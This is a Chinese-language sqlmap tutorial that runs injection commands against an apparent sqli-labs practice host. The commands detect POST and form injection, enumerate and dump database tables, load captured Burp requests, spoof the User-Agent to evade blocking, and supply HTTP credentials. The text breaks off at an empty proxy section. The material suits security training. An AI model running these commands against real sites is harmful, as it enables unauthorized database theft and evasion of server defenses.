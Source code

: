 ### sqlmap 深入

####  1、POST提交参数

&ensp; 默认情况下，用于执行HTTP请求的HTTP方法是GET，但是可以通过提供在POST请求中发送的数据隐式地将其更改为POST。

##### 1.1、自动搜索表单注入

~~~makefile
sqlmap -u "http://172.17.149.241/sqli/Less-11/index.php" --forms	# 判断是否存在post注入
~~~

~~~makefile
sqlmap -u "http://172.17.149.241/sqli/Less-11/index.php" --forms --dbs # 查看数据库
~~~

~~~makefile
sqlmap -u "http://172.17.149.241/sqli/Less-11/index.php" --forms --current-db #查看当前库名
~~~

~~~makefile
sqlmap -u "http://172.17.149.241/sqli/Less-11/index.php" --forms -D 数据库名 --tables
	# 查看指定数据库的表名 
~~~

~~~makefile
sqlmap -u "http://172.17.149.241/sqli/Less-11/index.php" --forms -D 库名 -T 表名 --columns		# 查看指定列名
~~~

~~~makefile
sqlmap -u "http://172.17.149.241/sqli/Less-11/index.php" --forms -D 库名 -T 表名 -C 字段名1，字段名2 --dump	# 爆破数据
~~~



##### 1.2、指定表单注入

~~~makefile
sqlmap -u "http://172.17.149.241/sqli/Less-11/index.php" -- data="uname=asd&passwd=D&submit=Submit"  # 判断是否存在post注入
~~~

~~~makefile
sqlmap -u "http://172.17.149.241/sqli/Less-11/index.php" --data "uname=asd&passwd=D&submit=Submit" --dbs # 查看数据库
~~~

后续步骤相同。



##### 1.3、利用bp抓包。

&ensp; 利用 **bp** 抓包，将抓取的数据复制粘贴，保存为文本（txt）。 

~~~makefile
sqlmap -r '/home/123.txt'	# 判断是否存在注入点
~~~

~~~makefile
sqlmap -r '/home/123.txt' --dbs # 查看所有数据库
~~~

后续步骤相同。



#### 2、更改请求头

##### 2.1、设置 User-Agent 

&ensp; sqlmap 默认会自带`User-Agent` ,然而有些服务器会自动屏蔽这种请求头。所以这时就需要将`User_Agent`更改，让服务器认为这是符合要求的请求。

**指定具体的User-Agent**   参数：`--user_agent`  

~~~makefile
sqlmap -u "http://172.17.149.241/sqli/Less-1/?id=1" --user-agent="Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:83.0) Gecko/20100101 Firefox/83.0" 
~~~



**自动生成User-Agent**  参数： `--random-agent`

本人（kali）的自动生成字典存放在`/usr/share/sqlmap/data/txt` 路径下

~~~makefile
sqlmap -u "http://172.17.149.241/sqli/Less-1/?id=1" --random-agent 
~~~



**探测User-Agent头是否存在注入** 参数： `--level 3`

~~~makefile
sqlmap -r sta1.txt --level 3 
~~~



##### 2.2、探测 host 和 Referer值

&ensp; 如果 `--level` 设置为 3 或以上，将针对HTTP引用头进行SQL注入测试。

~~~makefile
sqlmap -r sta1 --level 5
~~~



##### 3.3、设置额外的http头

&ensp; 通过设置选项`--header`，可以提供额外的HTTP表头。每个标头必须用换行符分隔。推荐使用更改配置文件`sqlmap.conf` 不易出错。

~~~makefile
# HTTP User-Agent header value. Useful to fake the HTTP User-Agent header value
# at each HTTP request.
# sqlmap will also test for SQL injection on the HTTP User-Agent value.
agent =

# Imitate smartphone through HTTP User-Agent header.
# Valid: True or False
mobile = False

# Use randomly selected HTTP User-Agent header value.
# Valid: True or False
randomAgent = False

# HTTP Host header value.
host = 

# HTTP Referer header. Useful to fake the HTTP Referer header value at
# each HTTP request.
referer = 

# Extra HTTP headers
headers = Accept: text/xml,application/xml,application/xhtml+xml,text/html;q=0.9,text/plain;q=0.8,image/png,*/*;q=0.5
 Accept-Language: en-us,en;q=0.5
 Accept-Charset: ISO-8859-15,utf-8;q=0.7,*;q=0.7

~~~



#### 3、设置HTTP协议认证

Sqlmap中设置HTTP协议认证的参数：`--auth-type`和`--auth-cred`

`--auth-type`支持：Basic、Digest、NTLM

`--auth-cred`认证语法为：username:password

~~~makefile
sqlmap -u "http://192.168.1.12/index.php?id=1" --auth-type Basic --auth-cred "admin:admin"
~~~



#### 4、设置代理

参数：







